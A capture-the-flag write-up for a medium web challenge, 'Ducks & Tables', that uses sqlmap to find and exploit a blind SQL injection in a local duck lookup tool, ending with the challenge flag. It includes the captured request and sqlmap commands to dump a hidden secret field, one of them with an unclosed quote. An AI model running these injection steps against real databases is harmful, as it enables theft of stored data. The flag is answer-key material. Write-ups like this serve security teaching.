 # Ducks & Tables
**Category**: web
**Author**: doggodile
**Difficulty**: Medium (300pts)

### Description
There is nothing insecure about a simple database look up tool - or is there?

Flag format: quack{...}

### Solution

Capture a request & replace the value with an injection indicator "*"
```
POST /duck HTTP/1.1
Accept: */*
Content-Length: 24
Host: localhost:3000
Origin: http://localhost:3000
Referer: http://localhost:3000/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36 Edg/128.0.0.0
content-type: application/json

{"duck":"*"}
```

Find Vulnerability
```
python3 sqlmap.py -r request 
```

![image](getTechnique.png "image")

Run a blindsql tool & Find out what there is to steal
```
python3 sqlmap.py -r request --dbms=sqlite --schema
```
(You can also find it in the HTTP response of a request, but not that secret exists!
)
![image](getSchema.png "image")

Run a blindsql tool to dump the secret field
```
python3 sqlmap.py -r request --dbms=sqlite --dump --where="secret IS NOT NULL:
```

![image](getSecret.png "image")

```
quack{s0_a_bl1nd_duck_w4lks_1nt0_a_t4bl3_4nd_s4y5_wh0_m0v3d_th3_p0nd?}
```